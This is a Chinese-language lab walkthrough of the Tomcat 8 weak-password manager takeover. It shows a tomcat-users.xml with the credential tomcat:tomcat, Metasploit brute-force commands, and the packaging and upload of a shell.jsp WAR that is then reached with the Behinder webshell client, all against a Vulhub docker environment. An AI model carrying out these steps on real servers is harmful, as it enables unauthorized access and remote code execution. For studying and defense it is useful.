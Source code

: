 # Tomcat8 弱口令+后台getshell漏洞

## 漏洞描述

Tomcat支持在后台部署war文件，可以直接将webshell部署到web目录下。其中，欲访问后台，需要对应用户有相应权限。

Tomcat7+权限分为：

- manager（后台管理）
  - manager-gui 拥有html页面权限
  - manager-status 拥有查看status的权限
  - manager-script 拥有text接口的权限，和status权限
  - manager-jmx 拥有jmx权限，和status权限
- host-manager（虚拟主机管理）
  - admin-gui 拥有html页面权限
  - admin-script 拥有text接口权限

这些权限的究竟有什么作用，详情阅读 http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html

在`conf/tomcat-users.xml`文件中配置用户的权限：

```
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">

    <role rolename="manager-gui"/>
    <role rolename="manager-script"/>
    <role rolename="manager-jmx"/>
    <role rolename="manager-status"/>
    <role rolename="admin-gui"/>
    <role rolename="admin-script"/>
    <user username="tomcat" password="tomcat" roles="manager-gui,manager-script,manager-jmx,manager-status,admin-gui,admin-script" />
    
</tomcat-users>
```

可见，用户tomcat拥有上述所有权限，密码是`tomcat`。

正常安装的情况下，tomcat8中默认没有任何用户，且manager页面只允许本地IP访问。只有管理员手工修改了这些属性的情况下，才可以进行攻击。

## 漏洞影响

Tomcat版本：8.0

## 环境搭建

Vulhub无需编译，直接启动整个环境：

```
docker-compose up -d
```

访问`http://your-ip:8080/`即可访问Apache Tomcat/8.0.43页面。

## 漏洞复现

### metasploit爆破tomcat弱口令

访问`http://your-ip:8080/`，点击Manager App：

![image-20220412133434883](images/image-20220412133434883.png)

跳转tomcat管理页面`http://your-ip:8080/manager/html`，提示输入用户名和密码：

![image-20220412133846764](images/image-20220412133846764.png)

在kali中使用metasploit对tomcat用户名和密码进行爆破：

```
┌──(root kali)-[/home/kali]
└─# msfconsole

# 搜索tomcat相关模块
msf6 > search tomcat
...
   23  auxiliary/scanner/http/tomcat_mgr_login	normal     No     Tomcat Application Manager Login Utility
...

# 使用tomcat_mgr_login模块进行爆破
msf6 > use auxiliary/scanner/http/tomcat_mgr_login

# 设置服务地址
msf6 auxiliary(scanner/http/tomcat_mgr_login) >show options
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS <your-ip>
RHOSTS => <your-ip>
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run
```

爆破成功，用户名密码为`tomcat:tomcat`：

![image-20220412135451368](images/image-20220412135451368.png)

输入弱密码`tomcat:tomcat`，即可访问后台。

### 制作war包并上传

首先制作war包`project.war`：

```
E:\Behinder3\server>jar -cvf project.war shell.jsp
已添加清单
正在添加: shell.jsp(输入 = 612) (输出 = 449)(压缩了 26%)
```

上传war包：

![image-20220412135536050](images/image-20220412135536050.png)

成功部署：

![image-20220412140450360](images/image-20220412140450360.png)

冰蝎3成功连接`http://your-ip:8080/project/shell.jsp`：

![image-20220412143831721](images/image-20220412143831721.png)


